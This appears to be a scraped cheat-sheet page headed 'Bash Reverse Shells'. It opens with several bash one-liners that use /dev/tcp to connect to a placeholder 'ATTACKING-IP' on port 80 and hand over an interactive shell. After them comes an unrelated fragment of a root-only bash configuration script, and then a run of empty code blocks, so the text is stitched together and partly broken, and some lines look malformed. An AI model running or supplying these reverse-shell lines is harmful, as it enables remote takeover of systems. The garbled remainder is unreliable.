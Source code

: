 # Bash Reverse Shells

```
exec /bin/bash 0&0 2>&0

```
```

0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

```
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

#

```#!/bin/bash

###### CONFIG
ACCEPTED_HOSTS="/root/.hag_accepted.conf"
BE_VERBOSE=false

if [ "$UID" -ne 0 ]
then
 echo "Superuser rights required"
 exit 2
fi

genApacheConf(){
 echo -e "# Host ${HOME_DIR}$1/$2 :"
}

echo '"quoted"' | tr -d \" > text.txt

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```
